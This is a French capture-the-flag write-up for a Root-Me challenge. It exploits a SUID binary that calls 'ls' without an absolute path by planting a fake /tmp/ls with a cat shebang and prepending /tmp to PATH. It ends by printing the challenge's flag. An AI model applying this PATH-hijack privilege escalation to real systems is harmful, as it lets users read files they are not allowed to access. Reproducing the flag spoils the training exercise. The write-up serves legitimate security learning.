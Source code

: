 ## Source et énoncé du CTF

<https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2>

## Write-up

Ce challenge est très similaire au challenge [*Bash - System 1*](https://cybersec-handbook.hashnode.dev/root-me-pwn-bash-system-1). 

Le but du CTF est d'exploiter le binaire *ch12* pour lire le contenu du fichier */challenge/app-script/ch12/.passwd* contenant le flag.

Le code source en langage C du programme *ch12.c* est donné ci-dessous :

```console
    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <sys/types.h>
     
    int main(){
        setreuid(geteuid(), geteuid());
        system("ls -lA /challenge/app-script/ch12/.passwd");
        return 0;
    }
```

On remarque une chose : 
* Le binaire utilise la commande *ls* sans utiliser son chemin absolu (faille potentielle)

Une fois compilé, le programme *ch12.c* produit le binaire *ch12*

En listant les fichiers du répertoire de travail, on obtient les droits suivants :
```console
app-script-ch12@challenge02:~$ ls -la
total 32
dr-xr-x---  2 app-script-ch12-cracked app-script-ch12         4096 Dec 10  2021 .
drwxr-xr-x 25 root                    root                    4096 Sep  5  2023 ..
-r--------  1 root                    root                     640 Dec 10  2021 ._perms
-rw-r-----  1 root                    root                      43 Dec 10  2021 .git
-r--r-----  1 app-script-ch12-cracked app-script-ch12-cracked   14 Dec 10  2021 .passwd
-rwsr-x---  1 app-script-ch12-cracked app-script-ch12         7252 Dec 10  2021 ch12
-r--r-----  1 app-script-ch12         app-script-ch12          204 Dec 10  2021 ch12.c
```

On remarque deux choses :
* Le fichier *.passwd* n'est accessible en lecture que par l'utilisateur *app-script-ch12-cracked*
* Le SUID Bit est positionné sur le fichier binaire *ch11*, et on se rappel que ce droit permet à tout utilisateur d'exécuter le fichier avec les droits de l'utilisateur propriétaire du fichier, c'est à dire avec les droits de *app-script-ch12-cracked*.

En exécutant le binaire *ch12*, on confirme que son contenu correspond au code source fourni :
```console
app-script-ch12@challenge02:~$ ./ch12
-r--r----- 1 app-script-ch12-cracked app-script-ch12-cracked 14 Dec 10  2021 /challenge/app-script/ch12/.passwd
```

On en déduit que le binaire *ch12* sera le vecteur pour afficher le contenu du fichier *.passwd* puisqu'il permet à l'utilisateur *app-script-ch12* d'exécuter une commande en tant que l'utilisateur *app-script-ch12-cracked*. Le problème étant que la commande exécutée (définie dans *ch12.c*) n'est pas *cat* mais *ls* et que cette commande est exécutée avec les arguments *-lA* propres à la commande *ls* (c'est à dire que *cat* ne les connait pas).

On a donc deux problèmes à résoudre : 
* Premièrement, on doit trouver un moyen permettant de faire en sorte que la commande *ls* exécute le binaire */bin/cat* au lieu du binaire */bin/ls*. Pour cela, on appelle le binaire */bin/cat* dans un fichier que l'on créer, que l'on nomme *ls* et que l'on stock dans un répertoire pour lequel on a les droits en écriture (par exemple */tmp*) :
Ainsi, le contenu du fichier */tmp/ls* sera le suivant :
```console
app-script-ch12@challenge02:~$ vi /tmp/ls
```
```console
#!/bin/cat
```
* Deuxièmement, on doit faire en sorte que le binaire */bin/cat* qui sera exécuté s'exécute en échappant les arguments *-lA* présents dans le code sources du programme *ch12*. Pour cela, on utilise l'option Bash ***--*** qui indique à la commande de traiter tout ce qui suit comme des arguments, y compris les options de commandes. Ainsi, la commande suivante tentera d'afficher le contenu de deux fichiers *-lA* et */challenge/app-script/ch12/.passwd* :
```console
cat -- -lA /challenge/app-script/ch12/.passwd
```

Ainsi, le contenu du fichier */tmp/ls* sera le suivant :
```console
app-script-ch12@challenge02:~$ vi /tmp/ls
```
```console
#!/bin/cat --
```

Ensuite, nous devons modifier le PATH de façon à ce que le système recherche le binaire *ls* prioritairement dans le répertoire */tmp* plutôt que dans le répertoire */bin*. On rappel que le système parse le PATH dans l'ordre de défintion des répertoires :
```console
app-script-ch12@challenge02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/

app-script-ch12@challenge02:~$ PATH=/tmp:$PATH
app-script-ch12@challenge02:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/
```

On peut enfin exécuter le binaire *ch12* pour afficher le contenu du fichier *.passwd* et obtenir le flag :
```console
app-script-ch12@challenge02:~$ ./ch12
#!/bin/cat --
/bin/cat: -lA: No such file or directory
8a95eDS/*e_T#
```

## Flag

8a95eDS/*e_T#
